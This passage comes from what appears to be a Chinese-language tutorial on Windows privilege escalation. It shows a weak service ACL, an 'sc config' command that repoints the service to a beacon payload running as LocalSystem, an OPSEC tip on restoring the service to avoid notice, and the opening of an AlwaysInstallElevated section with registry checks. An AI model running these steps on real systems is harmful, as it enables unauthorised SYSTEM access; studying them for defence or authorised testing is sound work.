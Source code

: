 ```plaintext
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

因此任意一个用户都有权限修改服务程序路径。这里将其设置为 Payload，并把运行服务的用户设置为 SYSTEM。最后重启服务获得 SYSTEM 权限。

```plaintext
E:\Downloads>sc config ServicePrivilegeEscalation binpath= "\"C:\Windows\Tasks\beacon.exe\"" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
```

*OPSEC：要注意不管是替换程序还是修改程序路径，最后都要恢复原样，避免服务异常。*

### 1.4 AlwaysInstallElevated

AlwaysInstallElevated 提权不是很新的利用手法，查到的资料最早可以追溯到 2013 年 Scott Sutherland 写的文章 [Bypassing Anti-Virus with Metasploit MSI Files](https://www.netspi.com/blog/technical/network-penetration-testing/bypassing-anti-virus-with-metasploit-msi-files/)。

原理是管理员在组策略启动 AlwaysInstallElevated 规则，在安装 MSI 包时会以 SYSTEM 权限运行。具体怎么启用，有两种方法，第一种是 gpedit.exe 中开启两条组策略：

-   计算机配置 -> 管理模板 -> Windows组件 -> Windows Installer -> 始终以提升的权限进行安装
    
-   用户配置 -> 管理模板-> Windows组件 -> Windows Installer -> 始终以提升的权限进行安装
    

> This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.
> 
> [AlwaysInstallElevated - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)

启动组策略后自动在注册表创建对应选项，第一行计算机配置，第二行用户配置。

```plaintext
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\Users\123\Desktop>reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
